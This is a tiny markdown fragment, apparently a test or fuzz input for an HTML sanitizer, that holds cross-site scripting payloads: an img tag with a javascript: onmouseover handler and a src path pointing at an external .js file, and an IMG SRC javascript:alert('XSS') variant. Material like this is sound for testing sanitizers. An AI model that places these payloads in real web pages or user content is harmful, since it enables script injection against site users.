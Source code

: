 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" style="background-image: url(paper.gif);"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
